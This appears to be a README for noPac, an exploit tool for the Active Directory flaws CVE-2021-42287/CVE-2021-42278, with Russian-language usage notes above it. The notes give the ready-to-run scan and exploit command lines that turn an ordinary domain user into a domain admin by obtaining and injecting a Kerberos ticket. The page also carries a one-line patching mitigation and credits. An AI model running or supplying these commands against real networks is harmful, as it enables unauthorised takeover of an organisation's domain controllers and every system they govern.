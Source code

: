 ```
1. Выше скомпилил екзешник из оригинальных исходников автора експа 
2. Скан
.\noPac.exe scan -domain domain.local -user user -pass Password!@#
3. Експлойт
.\noPac.exe -domain domain.local -user user -pass Password!@# /dc DC01 /mAccount pdc /mPassword Qwerty123 /service cifs /ptt

-> на выходе получаем строку в бейс64 и файлик кирби

4. Пост эксплуатация
.dopolnyu
```

# noPac

CVE-2021-42287/CVE-2021-42278 Scanner & Exploiter. Yet another low effort domain user to domain admin exploit.

If a Domain Controller is vulnerable it will return a TGT without a PAC, all eyes on small size tickets.

![](Images/scan.png)

![](Images/exploit.png)

## Mitigation

Patch your Domain Controllers!

## Credits

[Charlie Clark](https://twitter.com/exploitph) for his Rubeus fork and [Kevin Robertson](https://twitter.com/kevin_robertson) for SharpMad
